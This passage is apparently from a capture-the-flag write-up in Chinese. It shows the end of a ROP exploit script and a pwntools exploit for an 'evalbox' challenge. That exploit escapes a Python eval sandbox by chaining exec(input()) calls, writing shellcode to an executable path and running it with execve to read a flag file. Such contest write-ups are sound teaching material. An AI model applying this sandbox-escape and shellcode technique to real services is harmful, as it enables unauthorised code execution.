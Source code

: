 ```python
r.sendlineafter('Give me vaccine: ', payload + rop + padding + rop2 + padding2)
input()
r.sendline("flag.txt\x00")
r.interactive()
# ACSC{RoP_3@zy_Pe4$y}
```





## evalbox

python 加上了 sys_close 的 kill seccomp rule，雖然可以讀取檔案，但是我們不知道檔案名，並且很多操作都會間接呼叫到 sys_close，包含 `os.scandir()` 等等。

而第一個需要解決的是一次只能執行一行的問題，並且 `eval()` 本身不能 assign variable，然而這部分可以透過 `exec(input()), exec(input()), ...` 來繞過，`exec()` 可以 assign variable，並且 `,` 隔開可以多次執行。

我取得 flag 的方法為在可執行的目錄底下建一個檔案，並且透過 file operation 使其變成執行，最後寫入 shellcode 後直接 `execve()` 該檔案。雖然在 `execve()` 前會呼叫到 sys_close，但可以透過 remote container 檔案能夠殘留於目錄來繞過，以下為 exploit，註解分別標記三個步驟：

```python
#!/usr/bin/python3

from pwn import *
from sys import argv

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(argv) > 1:
    r = remote('evalbox-2.chal.ctf.acsc.asia', 9341)
    # r = remote('localhost', 9341)
else:
    r = process(['/usr/bin/python3', './app.py'])

shellcode = open("./a.out", "rb").read().hex()
payloads = [
    ##### part 1 - write shellcode to executable path
    # "__import__('os').umask(0)",
    # "path = '/run/lock/qq'",
    # "flags = __import__('os').O_WRONLY | __import__('os').O_CREAT | __import__('os').O_TRUNC | __import__('os').O_CLOEXEC",
    # "mode = 0o777",
    # "d = __import__('os').open(path=path, flags=flags, mode=mode)",

    # "f = open(d, 'wb')",
    # f"f.write(bytes.fromhex('{shellcode}'))",


    ##### part 2 - exec shellcode
    # "__import__('os').execve('/run/lock/qq', ['/run/lock/qq'], {})",

    ##### part 3 - read flag
    "f = open('flag-0479f1dcda629bbe833598bce876a647.txt', 'r')",
    "print(f.read())",
]

magic = 'exec(input()),'
all_magic = magic * len(payloads)

r.sendlineafter('code: ', all_magic)

for payload in payloads:
    r.sendline(payload)
```